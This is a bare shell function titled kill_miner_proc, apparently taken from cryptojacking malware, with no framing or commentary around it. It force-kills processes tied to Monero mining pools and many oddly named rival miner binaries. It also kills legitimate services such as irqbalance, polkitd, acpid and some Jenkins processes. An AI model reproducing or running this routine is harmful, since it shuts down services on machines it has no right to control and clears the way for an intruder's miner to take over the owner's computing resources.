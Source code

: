 

```
kill_miner_proc()
{
    ps auxf|grep -v grep|grep "mine.moneropool.com"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "pool.t00ls.ru"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:8080"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:3333"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "zhuabcn@yahoo.com"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "monerohash.com"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "/tmp/a7b104c270"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:6666"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:7777"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:443"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "stratum.f2pool.com:8888"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "xmrpool.eu" | awk '{print $2}'|xargs kill -9
    ps auxf|grep xiaoyao| awk '{print $2}'|xargs kill -9
    ps auxf|grep xiaoxue| awk '{print $2}'|xargs kill -9
    ps ax|grep var|grep lib|grep jenkins|grep -v httpPort|grep -v headless|grep "\-c"|xargs kill -9
    ps ax|grep -o './[0-9]* -c'| xargs pkill -f
    pkill -f biosetjenkins
    pkill -f Loopback
    pkill -f apaceha
    pkill -f cryptonight
    pkill -f stratum
    pkill -f mixnerdx
    pkill -f performedl
    pkill -f JnKihGjn
    pkill -f irqba2anc1
    pkill -f irqba5xnc1
    pkill -f irqbnc1
    pkill -f ir29xc1
    pkill -f conns
    pkill -f irqbalance
    pkill -f crypto-pool
    pkill -f minexmr
    pkill -f XJnRj
    pkill -f mgwsl
    pkill -f pythno
    pkill -f jweri
    pkill -f lx26
    pkill -f NXLAi
    pkill -f BI5zj
    pkill -f askdljlqw
    pkill -f minerd
    pkill -f minergate
    pkill -f Guard.sh
    pkill -f ysaydh
    pkill -f bonns
    pkill -f donns
    pkill -f kxjd
    pkill -f Duck.sh
    pkill -f bonn.sh
    pkill -f conn.sh
    pkill -f kworker34
    pkill -f kw.sh
    pkill -f pro.sh
    pkill -f polkitd
    pkill -f acpid
    pkill -f icb5o
    pkill -f nopxi
    pkill -f irqbalanc1
    pkill -f minerd
    pkill -f i586
```